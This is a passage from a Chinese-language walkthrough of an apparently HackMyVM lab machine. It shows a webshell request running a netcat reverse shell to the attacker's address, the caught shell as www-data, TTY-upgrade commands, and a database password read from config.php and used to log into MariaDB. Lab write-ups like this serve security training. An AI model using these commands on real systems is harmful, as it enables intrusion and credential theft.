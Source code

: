 通过Webshell执行反弹命令：
`http://dark.disguise.hmv/images/8d755f95e5203d7d71d93aefa9649514.php?cmd=nc+192.168.205.206+8888+-e+/bin/bash`

![image-20250516165136706](https://7r1UMPH.top/image/20250516165136907.webp)


成功接收到反弹Shell。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/shell]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [192.168.205.206] from (UNKNOWN) [192.168.205.211] 51496
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

对Shell进行TTY优化：

```bash
script /dev/null -c bash
# 按 Ctrl+Z 将其置于后台
stty raw -echo; fg
reset xterm  
export TERM=xterm  
export SHELL=/bin/bash  
stty rows 24 columns 80
```

#### 7.2 信息收集 (www-data 用户)

在 `/var/www/dark/` 目录下找到 `config.php`。

```bash
www-data@disguise:/var/www/dark$ cat config.php 
<?php

$DB_USER = 'dark_db_admin';
$DB_PASS = 'Str0ngPassw0d1***';
$DB_NAME = 'dark_shop';

?>
```

拿到数据库用户名 `dark_db_admin` 和密码 `Str0ngPassw0d1***`。
登录数据库查看用户信息。

```bash
www-data@disguise:/var/www/dark$ mysql -u dark_db_admin -p 
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 78045
Server version: 10.3.39-MariaDB-0+deb10u2 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| dark_shop          |
| information_schema |
+--------------------+
2 rows in set (0.014 sec)

MariaDB [(none)]> use dark_shop;
```